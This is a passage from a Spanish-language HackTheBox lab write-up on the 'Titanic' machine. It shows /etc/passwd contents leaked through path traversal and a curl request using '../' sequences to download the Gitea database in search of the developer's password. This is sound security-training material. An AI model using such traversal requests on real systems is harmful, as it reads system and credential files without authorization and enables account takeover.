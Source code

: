 ```bash
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Parece que efectivamente tenemos un ataque de Path Taversal y de este archivo etc/passwd vemos que solo hay dos usuarios que parecen útiles, el usuario developer y el usuario root.

Como vimos antes en el subdominio dev.titanic.htb, el usuario developer es el que tenia los repositorios docker-config y Flask-config creados.

El usuario que está ejecutando el servicio web Flask es el usuario www-data pero podemos probar a ver a qué ficheros tenemos acceso.

## User flag

Probando la ubicación tipica de la flag de usuario, efectivamente tenemos acceso a la carpeta `/home/developer`

![alt text](/assets/img/writeups/hackthebox/titanic_htb/image-5.png)

Esto significa que si como vimos antes la ruta por defecto de gittea es `/home/developer/gitea/data` quizá tengamos acceso a la base de datos de gitea y por ende a la contraseña de la cuenta developer.

## Base de datos de Gitea

```bash
❯ curl 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db' --output gitea.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2036k  100 2036k    0     0   287k      0  0:00:07  0:00:07 --:--:--  321k
```

![alt text](/assets/img/writeups/hackthebox/titanic_htb/image-6.png)

